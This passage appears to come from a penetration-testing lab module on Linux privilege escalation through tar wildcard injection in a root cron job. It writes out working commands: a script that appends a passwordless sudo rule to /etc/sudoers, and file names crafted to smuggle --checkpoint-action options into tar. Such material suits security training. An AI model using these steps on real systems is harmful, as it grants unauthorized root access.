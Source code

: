 An example of how wildcards can be abused for privilege escalation is the `tar` command, a common program for creating/extracting archives. If we look at the [man page](http://man7.org/linux/man-pages/man1/tar.1.html) for the `tar` command, we see the following:

```shell
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.

```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options. Let's see this in practice.

Consider the following cron job, which is set up to back up the `/home/htb-student` directory's contents and create a compressed archive within `/home/htb-student`. The cron job is set to run every minute, so it is a good candidate for privilege escalation.

```shell
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *

```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

```shell
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1

```

We can check and see that the necessary files were created.

```shell
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh

```
